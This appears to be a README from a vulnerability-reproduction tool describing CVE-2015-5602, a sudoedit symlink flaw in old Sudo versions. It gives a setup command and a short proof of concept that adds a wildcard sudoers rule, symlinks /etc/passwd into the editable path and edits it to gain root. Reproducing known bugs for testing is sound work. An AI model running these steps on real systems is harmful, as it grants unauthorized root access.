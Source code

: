 # CVE-2015-5602

### Description
sudoedit in Sudo before 1.8.15 allows local users to gain privileges via a symlink attack on a file whose full path is defined using multiple wildcards in `/etc/sudoers`, as demonstrated by `/home/*/*/file.txt`.

### Command to run
```shell
python decret.py --number 2015-5602 --release jessie --directory sudoedit --selenium
```

### Simple testing method

```shell
adduser haxor
echo "haxor ALL=(root) NOPASSWD: sudoedit /home/*/*/test.txt" >> /etc/sudoers
su haxor
cd; mkdir demo
ln -s /etc/passwd demo/test.txt
sudoedit demo/test.txt #Should not be working 
sudoedit /home/haxor/demo/test.txt # Should be working
```
You can edit the file and then get root access.
